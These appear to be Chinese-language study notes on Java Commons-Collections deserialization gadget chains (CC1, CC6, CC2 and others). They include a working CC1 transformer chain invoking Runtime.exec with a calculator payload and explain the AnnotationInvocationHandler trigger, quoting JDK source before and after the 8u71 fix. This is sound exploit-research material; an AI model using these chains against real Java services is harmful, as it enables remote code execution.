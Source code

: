 # 结构
## 1 level
下面三个都是ChainTransformer.tranform方法链式构造
CC1 -> 使用HashMap
CC1Lazy -> LazyMap + Proxy
CC6 -> LazyMap + TiedMapEntry
## 2 level
CC4 -> CommonsCollections4

## 3 level
CC2 = CC1 + CC4


CC2 -> 使用PriorityQueue的compare执行tranform()
CC2Temp -> 使用PriorityQueue的反射

CB链



# 如何查看jdk源码
下载全版本jdk8 https://gitee.com/huan4j/jdk8/tree/master  
然后用idea打开切换分支即可  

# cc1
## 最简单的
```text
Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(Runtime.getRuntime()),

        new InvokerTransformer("exec",
                new Class[]{String.class},
                new Object[]{"open -a Calculator"}
        )
};

ChainedTransformer transformerChain = new ChainedTransformer(transformers);
HashMap innerMap = new HashMap();

// outerMap instanceof TransformedMap
Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
outerMap.put("test", "xxx");
```
transformKey值我们填null不进行转换, transformValue处我们填transformerChain, 使用这个来进行转换  
TransformedMap::put 时 transformValue(value); 执行ChainedTransformer的transform()方法  
而他的transform()方法是依次执行transformers中每个的transform()方法  
```text
ConstantTransformer::transform(A)返回A
InvokerTransformer::transform(A)使用A, invoke方法并执行
```

## 编写反序列化poc
上面的需要写成反序列化的代码
由于我们序列化只存储数据, 不存储代码的执行函数, 所以得找到某个类来执行我们map::put

使用AnnotationInvocationHandler链条如下:
```text
AnnotationInvocationHandler#readObject()
 AbstractInputCheckedMapDecorator#setValue()
  TransformedMap#parent.checkSetValue(value);
   (ChainedTransformer)valueTransformer.transform(value)
    然后执行我们的构造链
```

```text
jdk8u71-b12之前的AnnotationInvocationHandler.java#readObject

private void readObject(java.io.ObjectInputStream s)
    throws java.io.IOException, ClassNotFoundException {
    s.defaultReadObject();

    // Check to make sure that types have not evolved incompatibly

    AnnotationType annotationType = null;
    try {
        annotationType = AnnotationType.getInstance(type);
    } catch(IllegalArgumentException e) {
        // Class is no longer an annotation type; time to punch out
        throw new java.io.InvalidObjectException("Non-annotation type in annotation serial stream");
    }

    Map<String, Class<?>> memberTypes = annotationType.memberTypes();

    // If there are annotation members without values, that
    // situation is handled by the invoke method.
    for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
        String name = memberValue.getKey();
        Class<?> memberType = memberTypes.get(name);
        if (memberType != null) {  // i.e. member still exists
            Object value = memberValue.getValue();
            if (!(memberType.isInstance(value) ||
                  value instanceof ExceptionProxy)) {
                memberValue.setValue(
                    new AnnotationTypeMismatchExceptionProxy(
                        value.getClass() + "[" + value + "]").setMember(
                            annotationType.members().get(name)));
            }
        }
    }
}
```

```text
jdk8u71-b12修改了 AnnotationInvocationHandler.java 改版后无法使用TransferMap, 而是直接将我们构造好的TransferMap拷贝到一个新的LinkedHashMap

private void readObject(java.io.ObjectInputStream s)
    throws java.io.IOException, ClassNotFoundException {
    ObjectInputStream.GetField fields = s.readFields();

    @SuppressWarnings("unchecked")
    Class<? extends Annotation> t = (Class<? extends Annotation>)fields.get("type", null);
    @SuppressWarnings("unchecked")
    Map<String, Object> streamVals = (Map<String, Object>)fields.get("memberValues", null);

    // Check to make sure that types have not evolved incompatibly

    AnnotationType annotationType = null;
    try {
        annotationType = AnnotationType.getInstance(t);
    } catch(IllegalArgumentException e) {
        // Class is no longer an annotation type; time to punch out
        throw new java.io.InvalidObjectException("Non-annotation type in annotation serial stream");
    }

    Map<String, Class<?>> memberTypes = annotationType.memberTypes();
    // consistent with runtime Map type
    Map<String, Object> mv = new LinkedHashMap<>();

    // If there are annotation members without values, that
    // situation is handled by the invoke method.
    for (Map.Entry<String, Object> memberValue : streamVals.entrySet()) {
        String name = memberValue.getKey();
        Object value = null;
        Class<?> memberType = memberTypes.get(name);
        if (memberType != null) {  // i.e. member still exists
            value = memberValue.getValue();
            if (!(memberType.isInstance(value) ||
                  value instanceof ExceptionProxy)) {
                value = new AnnotationTypeMismatchExceptionProxy(
                        value.getClass() + "[" + value + "]").setMember(
                            annotationType.members().get(name));
            }
        }
        mv.put(name, value);
    }

    UnsafeAccessor.setType(this, t);
    UnsafeAccessor.setMemberValues(this, mv);
}
```

# cc2
导致需要其他的方式利用

